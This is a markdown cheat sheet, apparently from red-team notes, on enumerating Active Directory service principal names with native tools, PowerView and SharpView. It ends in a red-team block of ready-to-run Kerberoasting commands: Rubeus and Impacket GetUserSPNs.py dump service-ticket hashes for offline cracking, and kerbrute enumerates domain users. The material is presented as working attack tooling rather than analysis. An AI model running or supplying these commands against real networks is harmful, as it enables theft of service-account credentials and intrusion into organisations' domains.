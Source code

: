 
## 🛠️ **COMPREHENSIVE ENUMERATION TOOLS**

### 🔧 Microsoft‑Signed & Native
- `Get-ADUser -LDAPFilter '(servicePrincipalName=*)' -Properties ServicePrincipalName -ResultSetSize 50`
- `Get-ADComputer -LDAPFilter '(servicePrincipalName=*)' -Properties ServicePrincipalName -ResultSetSize 50`
- `setspn -Q MSSQLSvc/*`, `setspn -Q HTTP/*` (avoid `*/ *` in prod)
- `wevtutil`, `klist` for sanity checks

### ⚔️ Offensive (PowerView/SharpView)
```powershell
# User SPNs
Get-DomainUser -SPN
Get-DomainUser -LDAPFilter '(servicePrincipalName=*)' -Properties samaccountname,serviceprincipalname
Get-DomainUser -SPN | Select -First 50
Get-DomainUser -SPN | Where-Object {$_.serviceprincipalname -like '*HTTP*'}
Get-DomainUser -SPN | Where-Object {$_.serviceprincipalname -like '*MSSQLSvc*'}
Get-DomainUser -SPN | Where-Object {$_.serviceprincipalname -like '*CIFS*'}

# Computer SPNs
Get-DomainComputer -SPN -Properties name,serviceprincipalname
Get-DomainComputer -LDAPFilter '(servicePrincipalName=*)' -Properties name,serviceprincipalname

# Group and ACL context for SPN users
Get-DomainUser -SPN -Properties memberof | Select samaccountname,memberof -First 25
Get-DomainObjectAcl -SearchBase (Get-Domain).DistinguishedName -ResolveGUIDs | Where-Object {$_.ObjectAceType -like '*Service*'}

# Export/summaries
Get-DomainUser -SPN | Select samaccountname | Export-Csv spn_users_sample.csv -NoTypeInformation
```
```cmd
SharpView.exe Get-DomainUser -SPN
SharpView.exe Get-DomainComputer -SPN
```

### 🔴 Red Team (SPN‑focused)
```cmd
Rubeus.exe kerberoast /rc4opsec /outfile:spn_hashes.txt
Rubeus.exe kerberoast /user:svc_sql /nowrap /outfile:svc_sql.hash
```
```bash
GetUserSPNs.py corp.local/USER:'P@ssw0rd!' -dc-ip 10.0.0.10 -request -outputfile spn_tgs.kirbi
GetUserSPNs.py corp.local/ -usersfile users.txt -format hashcat -outputfile roast_hashes.txt
```
```bash
kerbrute userenum -d corp.local users.txt --dc dc01.corp.local
```
